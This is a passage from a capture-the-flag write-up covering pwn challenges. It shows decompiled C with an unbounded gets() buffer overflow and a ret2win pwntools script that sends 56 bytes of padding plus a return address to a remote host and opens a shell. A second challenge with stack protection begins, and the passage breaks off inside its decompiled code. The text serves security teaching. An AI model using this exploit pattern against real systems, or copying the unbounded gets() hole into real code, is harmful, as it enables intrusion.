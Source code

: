 ```
undefined8 main(void)

{
  char local_38 [48];

  gets(local_38);
  printf("well lets check if you can bypass me!!!");
  return 0;
}

undefined8 vuln(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return 0;
}
```

Basically, this is a simple buffer overflow challenge. The goal is to overflow the
local_38 buffer and overwrite the return of main() with the address of vuln().
If this works we will get a shell on the remote machine. There are no overflow protections
on this binary.

The first step was to find the address of vuln so I could have a value to overwrite
the return address to. I did some investigation and found it was 0x401146. Next I need to know
how much to overflow the buffer.

Since this is a 64-bit binary, I need to overwrite the buffer with 48-bytes of junk,
but also I need to overwrite rbp with 8-bytes of junk. I confirmed this with some
pattern offset trickery in gdb. Finally, it was time to make a script to solve the challenge.

```
from pwn import *

r = remote('35.205.161.145', 49153)

payload = b'a'*56
payload += p64(0x401146)

r.sendline(payload)
r.interactive()
```  

This is a simple remote script that results in a shell on the remote machine running the binary.
The final step is to cat flag.txt and retrieve the flag.

&nbsp;

### **Can you?**

This next pwn challenge is still fairly simple but does have a single layer of
protection against overflow. Here is the decompiled code for the binary.

```
void vuln(void)

{
  int in_GS_OFFSET;
  char *__buf;
  undefined4 uVar1;
  undefined4 uVar2;
  int local_78;
  char local_74 [100];
  int local_10;

  uVar2 = 0x80492d6;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
```